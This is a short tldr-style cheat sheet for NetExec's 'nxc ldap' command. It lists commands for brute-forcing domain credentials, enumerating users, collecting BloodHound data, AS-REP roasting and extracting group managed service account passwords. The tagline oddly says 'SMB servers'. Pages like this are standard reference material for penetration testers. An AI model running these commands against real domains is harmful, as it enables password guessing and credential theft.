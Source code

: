 # nxc ldap

> Pentest and exploit SMB servers.
> More information: <https://www.netexec.wiki/ldap-protocol>.

- Search for valid domain credentials by trying out every combination in the specified lists of [u]sernames and [p]asswords:

`nxc ldap {{192.168.178.2}} -u {{path/to/usernames.txt}} -p {{path/to/passwords.txt}}`

- Enumerate active domain users:

`nxc ldap {{192.168.178.2}} -u {{username}} -p {{password}} --active-users`

- Collect data about the targeted domain and automatically import these data into bloodhound:

`nxc ldap {{192.168.178.2}} -u {{username}} -p {{password}} --bloodhound --collection {{All}}`

- Attempt to collect AS_REP messages for the specified user in order to perform an ASREPRoasting attack:

`nxc ldap {{192.168.178.2}} -u {{username}} -p '' --asreproast {{path/to/output.txt}}`

- Attempt to extract the passwords of group managed service accounts on the domain:

`nxc ldap {{192.168.178.2}} -u {{username}} -p {{password}} --gmsa`
